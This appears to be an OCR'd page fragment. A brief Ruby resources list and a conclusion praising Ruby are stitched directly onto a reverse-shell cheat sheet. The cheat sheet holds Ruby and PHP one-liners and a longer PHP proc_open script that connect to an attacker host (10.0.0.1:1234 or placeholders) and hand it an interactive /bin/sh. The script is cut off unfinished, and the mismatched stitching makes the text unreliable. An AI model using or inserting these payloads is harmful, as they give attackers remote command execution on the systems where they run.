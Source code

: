 ### Resources

- [Official Ruby Website](https://www.ruby-lang.org/)
- [Ruby Documentation](https://ruby-doc.org/)
- [Ruby Gems](https://rubygems.org/)

### Conclusion

Ruby is a powerful and elegant programming language that is widely used in web development, scripting, and automation. Its simplicity and readability make it a great choice for both beginners and experienced developers.
```bash
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("[IPADDR]","[PORT]");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```
## PHP

### Reverse Shell

#### PHP Reverse Shell - One-liner

```php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

#### PHP Reverse Shell - Full Script

```php
<?php
$ip = '10.0.0.1';  // Attacker's IP address
$port = 1234;  // Attacker's port

$sock = fsockopen($ip, $port);
$descriptorspec = array(
   0 => $sock,
   1 => $sock,
   2 => $sock
);

$process = proc_open('/bin/sh', $descriptorspec, $pipes);

if (is_resource($process)) {
   while (true) {
       foreach ($pipes as $pipe) {
           $read = array($pipe);
           $write = NULL;
           $except = NULL;
           $num_changed_streams = stream_select($read, $write, $except, 0);
           if ($num_changed_streams === false) {
               break;
           }
           foreach ($read as $stream) {
               $data = fread($stream, 8192);
               if (strlen($data) === 0) {
                   break 2;
               }
               fwrite($sock, $data);
           }
       }
   }
   fclose($sock);
   proc_close($process);
```